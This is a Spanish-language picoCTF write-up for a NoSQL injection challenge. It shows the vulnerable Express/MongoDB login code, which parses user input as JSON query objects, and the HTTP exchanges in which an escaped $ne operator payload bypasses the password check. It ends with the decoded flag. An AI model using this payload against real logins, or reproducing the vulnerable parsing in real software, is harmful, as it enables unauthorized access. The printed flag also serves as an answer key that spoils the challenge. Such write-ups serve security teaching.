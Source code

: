 ```yaml
---
title: No Sql Injection
date: 2025-07-26 00:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, explotación web, no sql, mongodb]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```

>No Sql Injection
Author: NGIRIMANA Schadrack
Description
Can you try to get access to this website to get the flag? You can download the source here. The website is running here. Can you log in?
{: .prompt-tip }

Parece que tenemos que hacer fuerza bruta contra una página de login, las pistas dicen que "no solo existen las inyecciones SQL sino también las NoSQL", dando a entender que debemos buscar un tipo de inyección para una base de datos noSQL.

```html
 Login
Email:
Password:
```

Siguiendo las indiciciones descargo el código fuente.
``` shell
wget https://artifacts.picoctf.net/c_atlas/38/app.tar.gz
```

Ahora podemos echar un ojo a parte del código fuente de la aplicación

``` javascript
const express = require("express");
const bodyParser = require("body-parser");
const mongoose = require("mongoose");
const { MongoMemoryServer } = require("mongodb-memory-server");
const path = require("path");
const crypto = require("crypto");

const app = express();
const port = process.env.PORT | 3000;

// Middleware to parse JSON data
app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: true }));

// User schema and model
const userSchema = new mongoose.Schema({
  email: { type: String, required: true, unique: true },
  firstName: { type: String, required: true },
  lastName: { type: String, required: true },
  password: { type: String, required: true },
  token: { type: String, required: false, default: "{{Flag}}" },
});

const User = mongoose.model("User", userSchema);

// Initialize MongoMemoryServer and connect to it
async function startServer() {
  try {
    const mongoServer = await MongoMemoryServer.create();
    const mongoUri = mongoServer.getUri();
    await mongoose.connect(mongoUri);

    // Store initial user
    const initialUser = new User({
      firstName: "pico",
      lastName: "player",
      email: "picoplayer355@picoctf.org",
      password: crypto.randomBytes(16).toString("hex").slice(0, 16),
    });
    await initialUser.save();

    // Serve the HTML form
    app.get("/", (req, res) => {
      res.sendFile(path.join(__dirname, "index.html"));
    });

    // Serve the admin page
    app.get("/admin", (req, res) => {
      res.sendFile(path.join(__dirname, "admin.html"));
    });

    // Handle login form submission with JSON
    app.post("/login", async (req, res) => {
      const { email, password } = req.body;

      try {
        const user = await User.findOne({
          email:
            email.startsWith("{") && email.endsWith("}")
              ? JSON.parse(email)
              : email,
          password:
            password.startsWith("{") && password.endsWith("}")
              ? JSON.parse(password)
              : password,
        });

        if (user) {
          res.json({
            success: true,
            email: user.email,
            token: user.token,
            firstName: user.firstName,
            lastName: user.lastName,
          });
        } else {
          res.json({ success: false });
        }
      } catch (err) {
        res.status(500).json({ success: false, error: err.message });
      }
    });

    app.listen(port, () => {
    });
  } catch (err) {
    console.error(err);
  }
}

startServer().catch((err) => console.error(err));
```

De este código podemos obtener dos presuntas informaciones sobre este sistema, un email válido siempre va a existir en la aplicación **picoplayer355@picoctf.org**, pues se inicializa, este correo podría ser un vector de ataque de fuerza bruta dado ahora que conocemos el nombre de usuario (en este caso el email) de un usuario que se crea automáticamente.  Además tenemos una línea de código que revela el uso del MongoDB.

``` javascript
const { MongoMemoryServer } = require("mongodb-memory-server");
```
Parece que habrá que probar payloads NoSQL. Es un ataque que consiste en truncar la lógica del motor de MongoDB para obtener resultados inesperados en la lógica de la aplicación, comienzo a probar payloads.

``` html
POST http://atlas.picoctf.net:58649/login HTTP/1.1
host: atlas.picoctf.net:58649
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Referer: http://atlas.picoctf.net:58649/
Content-Type: application/json
content-length: 64
Origin: http://atlas.picoctf.net:58649
Connection: keep-alive
Priority: u=0

{"email":"picoplayer355@picoctf.org","password":" {"$ne": "a"}"}
```
Respuesta 
```html
HTTP/1.1 400 Bad Request
X-Powered-By: Express
Content-Security-Policy: default-src 'none'
X-Content-Type-Options: nosniff
Content-Type: text/html; charset=utf-8
Content-Length: 918
Date: Fri, 25 Jul 2025 21:35:13 GMT
Connection: keep-alive
Keep-Alive: timeout=5

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>SyntaxError: Unexpected token $ in JSON at position 52<br> &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br> &nbsp; &nbsp;at parse (/app/node_modules/body-parser/lib/types/json.js:92:19)<br> &nbsp; &nbsp;at /app/node_modules/body-parser/lib/read.js:128:18<br> &nbsp; &nbsp;at AsyncResource.runInAsyncScope (node:async_hooks:203:9)<br> &nbsp; &nbsp;at invokeCallback (/app/node_modules/raw-body/index.js:238:16)<br> &nbsp; &nbsp;at done (/app/node_modules/raw-body/index.js:227:7)<br> &nbsp; &nbsp;at IncomingMessage.onEnd (/app/node_modules/raw-body/index.js:287:7)<br> &nbsp; &nbsp;at IncomingMessage.emit (node:events:525:35)<br> &nbsp; &nbsp;at endReadableNT (node:internal/streams/readable:1358:12)<br> &nbsp; &nbsp;at processTicksAndRejections (node:internal/process/task_queues:83:21)</pre>
</body>
</html>
```
La respuesta "Unexpected token $ in JSON at position 52" da a entender que hay que escapar algunos carácteres y jugar con la sintaxis, así que pruebo varias veces y finalmente el payload es el siguiente, escapando las comillas dobles ""

``` json
{"email":"picoplayer355@picoctf.org","password":"{\"$ne\": \"a\"}"}
```

``` html
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 186
ETag: W/"ba-hs16MdMy+WdMG1PuiylPpkCwgrU"
Date: Fri, 25 Jul 2025 21:41:10 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"success":true,"email":"picoplayer355@picoctf.org","token":"cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzI1YmE0ZGUxfQ==","firstName":"pico","lastName":"player"}
```

Decodificamos el token con base64

``` shell
pablo☠office no-sql-injection$ echo "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzI1YmE0ZGUxfQ" | base64 -d
picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_25ba4de1}base64: entrada inválida
```

flag: **picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_25ba4de1}**

Truncando la lógica de bases de datos de datos documentales. 
